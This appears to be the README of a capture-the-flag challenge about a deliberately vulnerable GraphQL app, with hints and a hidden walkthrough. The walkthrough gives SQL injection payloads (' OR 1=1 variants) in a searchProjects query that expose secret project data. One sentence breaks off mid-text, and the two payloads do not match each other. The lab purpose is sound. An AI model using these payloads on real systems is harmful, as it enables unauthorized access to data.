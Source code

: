# Shadow Graph - GraphQL Injection CTF Challenge

A web application vulnerable to GraphQL injection attacks, designed for CTFs.


## Challenge Description

The Shadow Organization has a new project management system that uses a query language for APIs. Your mission is to find the content of the flag !!!

## Hints

1. The application uses GraphQL at `/graphql`
2. You can login with the guest account (username: guest, password: guest)
3. The search functionality might be vulnerable to injection
4. The flag is stored as a secret in a classified project

## Solution

<details>
<summary>Click to reveal solution</summary>

### Vulnerability

The application has a GraphQL injection vulnerability in the `searchProjects` resolver. The >

### Exploitation Steps

1. Login with guest:guest credentials
2. Notice the search functionality uses a GraphQL query
3. Analyze the GraphQL schema (if GraphiQL is enabled, or through introspection)
4. Identify the `searchProjects` query parameter is vulnerable to SQL injection
5. Craft a payload to bypass the access control:

```
") OR 1=1 --
```

6. This will return all projects, including the secret one
7. Request the content of the secrets in the GraphQL query:

```graphql
{
  searchProjects(query: "' OR 1=1 -") {
    id
    name
    description
    isSecret
    secrets {
      id
      name
      content
      projectId
    }
  }
}
```

8. The flag should be revealed in the secret project's secrets.

</details>
```
